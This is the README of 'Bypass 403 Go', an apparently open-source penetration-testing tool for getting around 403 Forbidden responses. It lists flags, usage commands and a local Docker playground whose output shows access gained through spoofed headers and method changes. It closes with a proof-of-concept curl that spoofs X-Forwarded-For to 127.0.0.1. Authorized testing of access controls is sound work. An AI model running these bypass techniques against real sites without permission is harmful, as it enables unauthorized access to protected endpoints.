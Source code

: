 # Bypass 403 Go

## Description

Bypass 403 Go is a tool designed to bypass 403 Forbidden responses for specific endpoints. It allows users to make HTTP requests to specified URLs and includes options for adding custom headers to the requests.

### Installation

```bash
go install github.com/elvisgraho/bypass-403-go@latest
```

### Flags

| Option      | Description                                    |
|-------------|------------------------------------------------|
| -**u**          | Target URL (mandatory), e.g., `-u https://example.com/admin` |
| -**h**          | User header, e.g., `-h 'Cookie: lol'`          |
| -**hfile**      | File containing user headers, with one header per line |
| -**fs**         | Suppresses output with the desired content length, `-fs 42,205` |
| -**fc**         | Suppresses output with the desired response code, `-fc 307` |
| -**fr**         | Filter specific message in the response, `-fr "Request unsuccessful."` |
| -**skipUrl**    | Skip attacks that change url.                  |
| -**skipMethod** | Skip attacks that change request method.       |
| -**skipAgent**  | Skip attacks that change Agent header.         |
| -**show400**    | Show all 400 errors.                           |
| -**t**          | Timeout before making a request, `-t 50ms`     |

### Examples

```sh
bypass-403-go -u https://example.com/secret -h 'Cookie: lol'
bypass-403-go -u https://example.com/secret -hfile headers.txt
bypass-403-go -u https://example.com/secret -hfile headers.txt -fs 42
```

### Testing with Playground (local)

```sh
docker build -t 403-playground ./playground
docker run -p 8080:8080 403-playground
```

Once the playground is running, you can test the tool using commands similar to the following:

```sh
go run main.go -u "http://localhost:8080/admin" -h "Cookie: hello"
```

Playground output

```console
$ go run .\main.go -u "http://localhost:8080/admin" -h "Cookie: hello"
2024/03/15 16:03:38.692321 Started bypass-403-go
PUT <http://localhost:8080/admin> 200 OK. Length: 44.
GET <http://localhost:8080/admin> 200 OK. Length: 44. Cluster-Client-IP: localhost
GET <http://localhost:8080/admin> 200 OK. Length: 44. X-Forwarded-Port: 8080
2024/03/15 16:03:41.889985 Finished bypass-403-go
```

### Create POC curl

```sh
curl -X GET \
  -H "X-Forwarded-For: 127.0.0.1:80" \
  -i "https://target.com/secret"
```
